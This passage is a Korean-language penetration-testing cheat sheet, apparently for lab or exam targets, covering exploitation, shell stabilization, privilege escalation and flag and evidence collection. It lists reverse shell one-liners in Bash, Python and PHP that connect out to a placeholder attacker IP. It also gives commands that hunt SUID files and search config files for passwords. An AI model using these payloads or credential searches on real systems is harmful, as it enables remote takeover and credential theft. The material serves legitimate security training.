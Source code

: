 ### 4. **취약점 이용 (Exploitation)**

- **리버스 쉘 페이로드 모음**:

  ```bash
  # Bash
  bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

  # Python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

  # PHP
  php -r '$sock=fsockopen("YOUR_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

- **쉘 안정화**:
  ```bash
  # 쉘 획득 후:
  python -c 'import pty; pty.spawn("/bin/bash")'
  ^Z (Ctrl+Z로 백그라운드로)
  stty raw -echo
  fg (쉘 다시 포그라운드로)
  export TERM=xterm
  ```

### 5. **권한 상승 (Privilege Escalation)**

- **자동 스크립트 대신 수동 체크**:

  ```bash
  # SUID 파일 찾기
  find / -perm -u=s -type f 2>/dev/null

  # 설정 파일의 민감한 정보
  find / -name "*.conf" -o -name "*.config" 2>/dev/null | xargs grep -l "password"

  # sudo 권한 확인
  sudo -l

  # cron 작업 확인
  ls -la /etc/cron*
  ```

- **커널 익스플로잇 (최후의 수단)**
  ```bash
  uname -a
  cat /etc/issue
  ```

### 6. **루트 플래그 확인 후 증거 수집**

- **플래그 확인**: `proof.txt`, `local.txt`
- **추가 자격 증명 찾기**: 다른 시스템에 대한 액세스를 제공할 수 있음
- **스크린샷 캡처**: 각 중요한 단계마다

---